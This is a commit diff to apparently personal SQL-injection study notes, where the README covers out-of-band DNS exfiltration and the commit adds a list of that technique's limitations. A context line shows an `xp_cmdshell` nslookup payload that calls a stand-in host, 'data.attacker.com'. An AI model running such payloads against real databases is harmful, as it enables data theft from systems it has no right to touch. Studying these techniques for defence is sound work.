

Before and after one commit to JS0ff/cybersecurity_notes, a Markdown page: sql_injections_intro/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
take notest about limitation of OOB

```diff
--- a/sql_injections_intro/README.md
+++ b/sql_injections_intro/README.md
@@ -276,6 +276,13 @@ Uses LOAD_FILE() to trigger DNS lookup.
 
 `EXEC xp_cmdshell 'nslookup data.attacker.com';`
 
-# Receiving the Data
+### Receiving the Data
 
 Burp Collaborator, Interactsh, python dnslib custom server, bare-bones HTTP Server.
+
+#### Constraints
+
+1. Most databases restring outband network access.
+2. Different databases, different payloads.
+3. Characters limitation of 63 for dns exfiltration.
+4. Slower than pulling data directly.
```
